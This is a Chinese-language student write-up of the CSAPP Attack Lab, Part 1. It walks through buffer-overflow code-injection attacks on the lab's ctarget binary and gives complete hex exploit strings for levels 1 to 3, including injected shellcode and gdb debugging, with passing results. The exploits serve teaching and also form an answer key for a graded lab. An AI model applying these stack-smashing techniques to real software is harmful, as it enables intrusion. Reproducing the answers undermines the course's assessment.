





Lab 3: Attack Lab
=================

0x01. 实验介绍
--------------
``attack lab`` 包含一对定制的x86-64二进制可执行目标文件，每个文件都存在着缓冲区溢出（buffer overflow）的程序错误（bug）。
实验中我们就会利用这些bug，通过输入特定的字符串，来达到缓冲区攻击的目的。
实验包含两个目标文件，一个用于代码注入攻击（code injection attack），另一个用于返回导向编程攻击（return-oriented programming attack）。
通过此实验，我们可以学习到：

* 当程序本身缺乏缓冲区溢出的防护时，攻击者如何利用此安全漏洞实现对程序的控制。
* 如何写出更加安全的代码，以及如何利用编译器和操作系统的相关特性保证代码的安全性。
* 对x86-64汇编代码的栈和传参机制的更深理解。
* 对x86-64汇编代码编码的更深理解。
* ``GDB`` 和 ``OBJDUMP`` 等调试工具的熟练使用。

总而言之，结合 ``CSAPP:3e`` 3.10.3和3.10.4节的书本内容，完成此实验，我们可以获得如果利用网络服务器和操作系统中的安全漏洞，实现攻击的第一手经验。

0x02. 实验环境搭建
------------------
实验环境的搭建同之前的实验一致，这里不再赘述。
实验的源代码可通过以下命令下载解压：

.. code-block:: console

    $ wget http://csapp.cs.cmu.edu/3e/target1.tar
    $ tar xvf target1.tar

进入实验目录，可以看到实验包含的文件：

.. code-block:: console

    $ ls
    $ cookie.txt  ctarget  farm.c  hex2raw  README.txt  rtarget

``README.txt`` 实验的简单介绍。
``ctarget`` 是用于代码注入攻击的可执行文件。
``rtarget`` 是用于返回导向编程的可执行文件。
``cookie.txt`` 是实验攻击者用作验证的8位数字的十六进制数。
``farm.c`` 是用作返回导向编程攻击中可选用的函数的C实现集合。
``hex2raw`` 是将我们输入的字符串转换成相应的缓冲区攻击字符串。

0x03. 攻击步骤及思路说明
----------------------

实验准备
^^^^^^^^^^^^
在开始攻击之前，我们先对实验进行基本的了解。
可执行文件 ``ctarget`` 和 ``rtarget`` 都是通过 ``getbuf`` 函数从标准输入中读取字符串。
从 ``getbuf`` 的函数定义可以看到， ``getbuf`` 通过调用 ``Gets`` 函数，将输入的字符串存在数组 ``buf`` 里，数组 ``buf`` 的大小则是由宏 ``BUFFER_SIZE`` 定义。
其中 ``Gets`` 函数的功能类似于 ``libc`` 标准库中的 ``gets`` 函数，从标准输入中读取字符串，然后将其存在特定位置。
无论是我们自定义的 ``Gets()`` 函数，还是 ``libc`` 中的 ``gets`` 函数，都无法判断存储字符串的缓存是否放得下读入的字符串。
两个函数只是简单地将字符串从缓存起始位置开始拷贝，拷贝的过程很有可能出现数组越界，对超出数组的部分进行写操作。我们可以利用这点，来完成我们设定的攻击。

.. code-block:: c

    unsigned getbuf()
    {
        char buf[BUFFER_SIZE];
        Gets(buf);
        return 1;
    }

我们先简单运行一下 ``ctarget`` 程序。注意，在我们的私有的Linux环境中，运行 ``ctarget`` 需加上 ``-q`` 参数（不发送结果到CMU的评分服务器）方可正常运行。

.. code-block:: console

    $ ./ctarget -q
    Cookie: 0x59b997fa
    Type string:hahaha
    No exploit.  Getbuf returned 0x1
    Normal return
    $ ./ctarget -q
    Cookie: 0x59b997fa
    Type string:this is just a test before doing the lab. I'm writing this nonsense here just to trigger the out-of-bound behavior.
    Ouch!: You caused a segmentation fault!
    Better luck next time
    FAIL: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:FAIL:0xffffffff:ctarget:0:74 68 69 73 20 69 73 20 6A 75 73 74 20 61 20 74 65 73 74 20 62 65 66 6F 72 65 20 64 6F 69 6E 67 20 74 68 65 20 6C 61 62 2E 20 49 27 6D 20 77 72 69 74 69 6E 67 20 74 68 69 73 20 6E 6F 6E 73 65 6E 73 65 20 68 65 72 65 20 6A 75 73 74 20 74 6F 20 74 72 69 67 67 65 72 20 74 68 65 20 6F 75 74 2D 6F 66 2D 62 6F 75 6E 64 20 62 65 68 61 76 69 6F 72 2E

可以看到，当我们输入的字符串长度较小（小于 ``BUFFER_SIZE`` ）时，运行 ``ctarget`` ``Getbuf``函数正常返回1，没有发生数组越界。相反，如果字符串长度过长，发生字符串数组越界，就会导致程序执行异常，触发段错误（segmentation fault）。

关于输入的字符串，还需要注意的是，我们在标准输入中输入的字符串都是ASCII码表示的，要想在实际的缓存中表示成相应所需要的字符值，还要通过 ``hex2raw`` 来完成相应的转换。
由此，我们的攻击字符串在输入到 ``ctarget`` 或 ``rtarget`` 时，还要经过 ``hex2raw`` 的转换：

.. code-block:: console

    $ ./hex2raw < test1.txt | ./ctarget

关于 ``hex2raw`` 的具体使用方法，可参考 `官网writeup <http://csapp.cs.cmu.edu/3e/attacklab.pdf>`_ 中的附录A及其相关说明，这里不再赘述。
至此，实验的相关准备已经足够了，可以开始我们的攻击之旅。

第一部分：代码注入攻击
^^^^^^^^^^^^^^^^^^^^^

在第一部分中，我们将用构建的字符串攻击 ``ctarget`` 。 
``ctarget`` 可执行程序有两个特点：

* 每次运行时栈的位置保持不变
* 栈上的数据可被执行
我们将利用以上特点，输入特定的字符串来达到我们实验的目的。

Level 1
''''''''

**实验说明：**

在Level 1中，我们不会注入新代码，只是通过输入的字符串将程序重定向到另一个已有的函数执行。
在 ``ctarget`` 中， 函数 ``test`` 调用 ``getbuf`` 。 当调用完成后， 函数 ``test`` 会继续执行接下来的语句，即调用 ``printf`` 打印相应信息。

.. code-block:: c

    void test()
    {
        int val;
        val = getbuf();
        printf("No exploit. Getbuf returned 0x%x\n", val);
    }

在Level 1中，我们想要改变上述的执行顺序。当函数 ``getbuf`` 执行返回语句时，我们想要让 ``ctarget`` 执行函数 ``touch1``， 而不是之前的函数 ``printf``。
函数 ``touch1`` 的定义如下：

.. code-block:: c

    void touch1()
    {
        vlevel = 1;     /* Part of validation protocol */
        printf("Touch1!: You called touch1()\n");
        validate(1);
        exit(0);
    }

**攻击思路：**

了解了实验的内容，我们就可以开始我们Level 1的攻击。在攻击之前，我们可以用以下命令对 ``ctarget`` 进行反汇编，并将其保存在 ``ctarget.txt`` 中。

.. code-block:: console

    $ objdump -d ctarget | tee ctarget.txt

查看 ``ctarget.txt`` ，可以发现函数调用栈是 ``main --> stable_launch --> launch --> test --> getbuf --> Gets`` 。
想要改变函数 ``test`` 的执行流程，我们先看 ``test`` 的汇编代码：

.. code-block:: asm

    0000000000401968 <test>:
        401968:       48 83 ec 08             sub    $0x8,%rsp
        40196c:       b8 00 00 00 00          mov    $0x0,%eax
        401971:       e8 32 fe ff ff          callq  4017a8 <getbuf>
        401976:       89 c2                   mov    %eax,%edx
        401978:       be 88 31 40 00          mov    $0x403188,%esi
        40197d:       bf 01 00 00 00          mov    $0x1,%edi
        401982:       b8 00 00 00 00          mov    $0x0,%eax
        401987:       e8 64 f4 ff ff          callq  400df0 <__printf_chk@plt>
        40198c:       48 83 c4 08             add    $0x8,%rsp
        401990:       c3                      retq
        401991:       90                      nop
        401992:       90                      nop
        401993:       90                      nop
        401994:       90                      nop
        401995:       90                      nop
        401996:       90                      nop
        401997:       90                      nop
        401998:       90                      nop
        401999:       90                      nop
        40199a:       90                      nop
        40199b:       90                      nop
        40199c:       90                      nop
        40199d:       90                      nop
        40199e:       90                      nop
        40199f:       90                      nop

由汇编代码可以看出， ``test`` 在调用执行完 ``getbuf`` 函数后，下一条命令应该执行的是位于 ``0x401976`` 处的汇编代码，我们要做的，即是通过输入的字符串修改这个值。
再具体看一下函数 ``getbuf`` 以及 ``getbuf`` 调用的函数 ``Gets`` 的汇编代码：

.. code-block:: asm

    00000000004017a8 <getbuf>:
        4017a8:       48 83 ec 28             sub    $0x28,%rsp
        4017ac:       48 89 e7                mov    %rsp,%rdi ; 将栈顶作为参数传入Gets
        4017af:       e8 8c 02 00 00          callq  401a40 <Gets>
        4017b4:       b8 01 00 00 00          mov    $0x1,%eax
        4017b9:       48 83 c4 28             add    $0x28,%rsp
        4017bd:       c3                      retq
        4017be:       90                      nop
        4017bf:       90                      nop

    0000000000401a40 <Gets>:
        401a40:       41 54                   push   %r12
        401a42:       55                      push   %rbp
        401a43:       53                      push   %rbx
        401a44:       49 89 fc                mov    %rdi,%r12
        401a47:       c7 05 b3 36 20 00 00    movl   $0x0,0x2036b3(%rip)        # 605104 <gets_cnt>
        401a4e:       00 00 00
        401a51:       48 89 fb                mov    %rdi,%rbx
        401a54:       eb 11                   jmp    401a67 <Gets+0x27>
        401a56:       48 8d 6b 01             lea    0x1(%rbx),%rbp ; 读取输入的值，依次将值存在getbuf栈顶开始位置
        401a5a:       88 03                   mov    %al,(%rbx)
        401a5c:       0f b6 f8                movzbl %al,%edi
        401a5f:       e8 3c ff ff ff          callq  4019a0 <save_char>
        401a64:       48 89 eb                mov    %rbp,%rbx
        401a67:       48 8b 3d 62 2a 20 00    mov    0x202a62(%rip),%rdi        # 6044d0 <infile>
        401a6e:       e8 4d f3 ff ff          callq  400dc0 <_IO_getc@plt>
        401a73:       83 f8 ff                cmp    $0xffffffff,%eax
        401a76:       74 05                   je     401a7d <Gets+0x3d>
        401a78:       83 f8 0a                cmp    $0xa,%eax
        401a7b:       75 d9                   jne    401a56 <Gets+0x16>
        401a7d:       c6 03 00                movb   $0x0,(%rbx)
        401a80:       b8 00 00 00 00          mov    $0x0,%eax
        401a85:       e8 6e ff ff ff          callq  4019f8 <save_term>
        401a8a:       4c 89 e0                mov    %r12,%rax
        401a8d:       5b                      pop    %rbx
        401a8e:       5d                      pop    %rbp
        401a8f:       41 5c                   pop    %r12
        401a91:       c3                      retq

从以上汇编代码，我们可以看到函数 ``getbuf`` 开辟了40字节（0x28）的栈空间，并把栈顶传给函数 ``Gets`` ，函数 ``Gets`` 将输入的字符串从栈顶位置开始保存。对应的函数调用如图所示：

所以，如果我们想要 ``test`` 函数重定向执行函数 ``touch1`` ，只需将图中的地址返回值改为函数 ``touch1`` 的入口地址。
即构建一个长度为48字节的字符串，其中40~47字节的字符串为函数 ``touch1`` 的地址。需要注意的是 ``touch1`` 的地址构建的攻击字符串应按照小端序（little endian）的顺序放置在内存中。
将构建的字符串通过 ``hex2raw`` 程序进行转换，传给 ``ctarget`` 程序执行，Level 1攻击成功！

.. code-block:: console

    $ cat ctarget_lv1.txt
    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c0 17 40 00 00 00 00 00
    $ ./hex2raw < ctarget_lv1.txt | ./ctarget -q
    Cookie: 0x59b997fa
    Type string:Touch1!: You called touch1()
    Valid solution for level 1 with target ctarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00

Level 2
''''''''

**实验说明：**

在Level 2中，我们要在输入的攻击字符串中包含一小段代码，将函数 ``test`` 的执行流程在调用完函数 ``getbuf`` 后重定向到函数 ``touch2``。
``touch2`` 的C代码如下所示：

.. code-block:: c

    void touch2(unsigned val)
    {
        vlevel = 2;     /* Part of validation protocol */
        if(val == cookie)
        {
            printf("Touch2!: You called touch2(0x%.8x)\n", val);
            validate(2);
        }
        else
        {
            printf("Misfire: You called touch2(0x%.8x)\n", val);
            fail(2);
        }
        exit(0);
    }

**攻击思路：**

由上述 ``touch2`` 函数的代码可以看出，Level2与Level1的不同在于，我们还要将cookie值作为参数传给重定向的函数 ``touch2``。
首先查看一下 ``touch2`` 的汇编代码。 

.. code-block:: asm

    00000000004017ec <touch2>:
        4017ec:       48 83 ec 08             sub    $0x8,%rsp
        4017f0:       89 fa                   mov    %edi,%edx
        4017f2:       c7 05 e0 2c 20 00 02    movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
        4017f9:       00 00 00
        4017fc:       3b 3d e2 2c 20 00       cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
        401802:       75 20                   jne    401824 <touch2+0x38>
        401804:       be e8 30 40 00          mov    $0x4030e8,%esi
        401809:       bf 01 00 00 00          mov    $0x1,%edi
        40180e:       b8 00 00 00 00          mov    $0x0,%eax
        401813:       e8 d8 f5 ff ff          callq  400df0 <__printf_chk@plt>
        401818:       bf 02 00 00 00          mov    $0x2,%edi
        40181d:       e8 6b 04 00 00          callq  401c8d <validate>
        401822:       eb 1e                   jmp    401842 <touch2+0x56>
        401824:       be 10 31 40 00          mov    $0x403110,%esi
        401829:       bf 01 00 00 00          mov    $0x1,%edi
        40182e:       b8 00 00 00 00          mov    $0x0,%eax
        401833:       e8 b8 f5 ff ff          callq  400df0 <__printf_chk@plt>
        401838:       bf 02 00 00 00          mov    $0x2,%edi
        40183d:       e8 0d 05 00 00          callq  401d4f <fail>
        401842:       bf 00 00 00 00          mov    $0x0,%edi
        401847:       e8 f4 f5 ff ff          callq  400e40 <exit@plt>
  
``touch2`` 在 ``0x4017fc`` 处比较寄存器 ``%rdi`` 和cookie的值的大小。若相等，则从 ``0x401804`` 处执行；若不等，则从 ``0x401824`` 处执行。
两处不同执行路径的代码所打印的内容也不同，如下调试信息所示：

.. code-block:: console

    (gdb) x/s 0x4030e8
    0x4030e8:       "Touch2!: You called touch2(0x%.8x)\n"
    (gdb) x/s 0x403110
    0x403110:       "Misfire: You called touch2(0x%.8x)\n"

由此可见，Level2的攻击关键在于在重定向到函数 ``touch2`` 之前，将寄存器 ``%rdi`` 的值设置为cookie值。我们需要在写入的字符串里构建对应的汇编代码的编码。
用汇编语言实现即为 ``mov $0x59b997fa, %rdi`` 。 对应的指令编码可通过下述流程实现：

.. code-block:: console

    $ cat lv2.S # 先将 “mov $0x50b997fa, %rdi” 保存到lv2.S中
    mov $0x59b997fa, %rdi
    $ gcc -c lv2.S # 生成目标文件
    $ objdump -d lv2.o # 对生成的目标文件反汇编
    lv2.o:     file format elf64-x86-64

    Disassembly of section .text:

    0000000000000000 <.text>:
        0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi

由上述可知，汇编指令 ``mov $0x59b997fa, %rdi`` 的二进制编码为 ``48 c7 c7 fa 97 b9 59``。
构建好了设置寄存器 ``%rdi`` 的编码，我们还需将 ``test`` 执行完 ``getbuf`` 后的返回地址设置为汇编指令所在的位置。这里就利用到上述提及的 ``rtarget`` 运行栈地址不变和栈上可执行代码的特性。
``gdb`` 调试 ``ctarget`` ， 找到 ``getbuf`` 执行时的栈顶位置：

.. code-block:: console

    $ gdb ./ctarget
    (gdb) b getbuf
    Breakpoint 1 at 0x4017a8: file buf.c, line 12.
    (gdb) run -q
    Starting program: /home/jiewan01/CS4_Challenge/csapp_lab/target1/ctarget -q
    Cookie: 0x59b997fa

    Breakpoint 1, getbuf () at buf.c:12
    12      buf.c: No such file or directory.
    (gdb) stepi
    14      in buf.c
    (gdb) p/x $rsp
    $1 = 0x5561dc78

由此，我们可以确定我们想要的攻击字符串的形式。字符串的0~7字节（ ``getbuf`` 函数栈顶位置 ）存放如下汇编代码的二进制编码。40~47字节存放栈顶 ``%rsp`` 的值， ``test`` 执行完 ``getbuf`` 后将跳转到栈顶执行以下汇编指令。 48~55字节存放 ``touch2`` 函数的入口地址，这样在执行完栈顶的汇编代码（包含 ``ret`` ）指令后， ``test`` 将跳转到 ``touch2`` 函数继续执行。

.. code-block:: asm

    mov $0x59b997fa, %rdi
    ret

对应的函数栈如图所示：

用 ``hex2raw`` 程序将构建的字符串进行转换，传给 ``ctarget`` 程序执行，Level2攻击成功！

.. code-block:: console

    $ cat ctarget_lv2.txt
    48 c7 c7 fa 97 b9 59 c3  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  78 dc 61 55 00 00 00 00 ec 17 40 00 00 00 00 00
    $ ./hex2raw < ctarget_lv2.txt | ./ctarget -q
    Cookie: 0x59b997fa
    Type string:Touch2!: You called touch2(0x59b997fa)
    Valid solution for level 2 with target ctarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 EC 17 40 00 00 00 00 00

Level 3
''''''''

**实验说明：**

Level 3的要求同Level 2基本一致，只不过在 ``test`` 重定向到函数 ``touch3`` 前传入字符串作为参数。
``touch3`` 的C代码如下所示：

.. code-block:: c

    void touch3(char *sval)
    {
        vlevel = 3;     /* Part of validation protocol */
        if (hexmatch(cookie, sval))
        {
            printf("Touch3!: You called touch3(\"%s\")\n", sval);
            validate(3);
        }
        else
        {
            printf("Misfire: You called touch3(\"%s\")\n", sval);
            fail(3);
        }
        exit(0);
    }

可以看到， ``touch3`` 调用 ``hexmatch`` 来比较cookie与输入字符串是否相等，对应 ``hexmatch`` 的C实现如下：

.. code-block:: c

    /* Compare string to hex representation of unsigned value */
    int hexmatch(unsigned val, char *sval)
    {
        char cbuf[110];
        /* Make position of check string unpredictable */
        char *s = cbuf + random() % 100;
        sprintf(s, "%.8x", val);
        return strncmp(sval, s, 9) == 0;
    }

``hexmatch`` 在栈上构建了长为110字节的字符串数组，并将 ``val`` 值作为字符串存储在 ``cbuf`` 随机位置。然后调用 ``strncmp`` 比较两个字符串是否相等。

**攻击思路：**

Level 3的攻击思路基本同Level 2一样，我们需要在重定向到 ``touch3`` 前，设置寄存器 ``%rdi`` 的值。Level 3中对应 ``%rdi`` 的值应为字符串 ``59b997fa`` （cookie的值去掉0x）的地址，因此我们需在栈上存放字符串，并将其地址传给 ``%rdi``。
即构建的汇编代码应如下所示：

.. code-block:: asm

    mov addr_of_string, %rdi ; addr_of_string should be the starting address for '59b997fa'
    ret

由Level 2中我们知道 ``getbuf`` 函数执行时的栈顶位置是 ``0x5561dc78``， 同Level 2一样，我们可将构建的攻击代码放在栈顶，对应栈上 ``%rsp + 8`` （ ``0x5561dc80`` ） 处存放字符串。
那对应汇编代码应为：

.. code-block:: asm

    mov $0x5561dc80, %rdi
    ret

按照以下步骤生成其二进制编码：

.. code-block:: console

    $ cat lv3.S
    mov $0x5561dc80, %rdi
    ret
    $ gcc -c lv3.S
    $ objdump -d lv3.o

    lv3.o:     file format elf64-x86-64

    Disassembly of section .text:

    0000000000000000 <.text>:
        0:   48 c7 c7 80 dc 61 55    mov    $0x5561dc80,%rdi
        7:   c3                      retq

根据 `ASCII表 <https://www.asciitable.com/>`_ 查找对应字符串 ``59b997fa`` 的ASCII码。
至此，我们可以构建出Level 3的攻击字符串，执行攻击：

.. code-block:: console

    $ cat ctarget_lv3.txt
    48 c7 c7 80 dc 61 55 c3  /* mov    $0x5561dc80,%rdi retq */
    35 39 62 39 39 37 66 61  /* string 59b997fa */
    00 00 00 00 00 00 00 00  /* junk */
    00 00 00 00 00 00 00 00  /* junk */
    00 00 00 00 00 00 00 00  /* junk */
    78 dc 61 55 00 00 00 00  /* return to execute exploit string */
    fa 18 40 00 00 00 00 00  /* return to execute touch3 */
    $ ./hex2raw < ctarget_lv3.txt | ./ctarget -q
    Cookie: 0x59b997fa
    Type string:Misfire: You called touch3("")
    FAIL: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:FAIL:0xffffffff:ctarget:3:48 C7 C7 80 DC 61 55 C3 35 39 62 39 39 37 66 61 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 FA 18 40 00 00 00 00 00

奇怪的是，结果显示我们调用了 ``touch3`` 函数，但是攻击失败了，说明传入的字符串和给定字符串不匹配。检查了一遍字符串的ASCII码表示和对应的地址没有问题，这时实验 ``writeup`` 里针对Level 3的一条建议引发了我的思考：

    When functions ``hexmatch`` and ``strncmp`` are called, they push data onto the stack, overwriting portions of memory that held the buffer used by ``getbuf``. As a result, you will need to be careful where you place the string representation of your cookie.

会不会是调用 ``hexmatch`` 和 ``strncmp`` 函数的过程中，栈上放置字符串的内存被覆盖了？
我们用 ``gdb`` 调试一下上述的过程，设置相应的函数断点：

.. code-block:: console

    $ gdb ./ctarget
    (gdb) b test
    (gdb) b touch3
    (gdb) b hexmatch
    (gdb) layout regs
    (gdb) run -q -i ctarget_lv3.raw

``ctarget_lv3.raw`` 是 ``hex2raw`` 生成的字符串， ``run -q -i ctarget_lv3.raw`` 运行程序，进行单步调试。 单步调试进入 ``touch3`` 函数后， 把字符串所在的内存位置设置成观察点 ``watch *0x5561dc80`` 。 
继续单步调试，发现在代码 ``0x401863`` 处观察点的内存值发生变化，说明我们构建的字符串确实被覆盖重写了。

.. code-block:: console

    (gdb) si

    Hardware watchpoint 4: *0x5561dc80

    Old value = 962738485
    New value = 783582208
    0x0000000000401868 in hexmatch (val=1505335290, sval=sval@entry=0x5561dc80 "") at visible.c:62

分析下代码，可以看到 ``0x401863`` 处代码所作的事情是将寄存器 ``%rax`` 中的值赋给 ``%rsp + 0x78`` 处，对应的地址恰巧是 ``0x5561dc80`` 。 
由此可见，我们构建的字符串的8~55字节的内容，都会在 ``touch3`` 后续的执行过程中，被其调用的其它函数栈的内容覆盖。所以为了避免此情况，我们应将字符串放置在构建的攻击字符串的最前方，也就是 ``getbuf`` 的栈顶位置。
重组攻击字符串，再次运行，Level 3攻击成功！

.. code-block:: console

    $ cat ctarget_lv3_new.txt
    35 39 62 39 39 37 66 61  /* string 59b997fa */
    48 c7 c7 78 dc 61 55 c3  /* mov    $0x5561dc78,%rdi retq */
    00 00 00 00 00 00 00 00  /* junk */
    00 00 00 00 00 00 00 00  /* junk */
    00 00 00 00 00 00 00 00  /* junk */
    80 dc 61 55 00 00 00 00  /* return to execute exploit string */
    fa 18 40 00 00 00 00 00  /* return to execute touch3 */
    $ ./hex2raw < ctarget_lv3_new.txt | ./ctarget -q
    Cookie: 0x59b997fa
    Type string:Touch3!: You called touch3("59b997fa")
    Valid solution for level 3 with target ctarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
